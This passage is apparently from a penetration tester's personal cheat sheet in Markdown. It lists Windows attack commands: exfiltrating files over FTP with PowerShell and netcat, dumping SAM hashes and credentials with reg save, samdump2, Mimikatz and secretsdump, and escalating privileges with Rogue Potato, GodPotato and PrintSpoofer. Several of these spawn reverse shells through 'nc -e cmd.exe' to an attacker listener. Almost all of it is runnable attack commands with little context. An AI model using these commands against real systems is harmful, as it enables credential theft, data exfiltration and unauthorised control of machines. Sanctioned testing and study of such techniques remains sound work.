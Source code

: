 ```
- If the shell is not interactive try using the following in powershell
```
$File = "D:\Dev\somefilename.zip"
$ftp = "ftp://username:password@example.com/pub/incoming/somefilename.zip"

"ftp url: $ftp"

$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftp)

"Uploading $File..."

$webclient.UploadFile($uri, $File)
```

#### NC
- On victim machine run the follwing in cmd prompt not powershell
```
.#nc.exe <Local> <Port> < c:\file.exe
```
- Attacker machine
```
nc -lvnp <Port> > file.exe
```
# Priv Esc Windows
## Dumping Creds
### SAM Hashes
```
reg save hklm\sam sam
reg system hmlm\system system
```
- Transfer these both to attacker machine
- On attacker machine run
```
samdump2 system sam
```
- Can also dump on Mimikatz with
```
lsadump::sam /system:SYSTEM /sam:SAM
```

### SecretsDump
```
secretsdump.py <Domain>/<%tp.frontmatter.Username%>:<%tp.frontmatter.Password%>@<%tp.frontmatter.IP%>
```
## Potato Attacks
- Abuses SEImpersonate
- ### Rogue Potato
- Attacker machine
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:<%tp.frontmatter.IP%>:9999
```
- Victim machine (rev shell)
```
potato.exe -r <Local IP> -e "nc.exe <Listener IP> <Listener Port> -e cmd.exe" -l 9999
```

### God Potato
- This one was picky with commands. Downloaded the nc binary and got it to run with this
```
.\godpotato.exe -cmd "c:\users\adrian\nc.exe <Listener IP> <Listener Port> -e c:\Windows\System32\cmd.exe"
```

### PrintSpoofer
```
printspoofer.exe -c "c:\users\shell.exe" -i
.\printspoofer.exe -i -c powershell.exe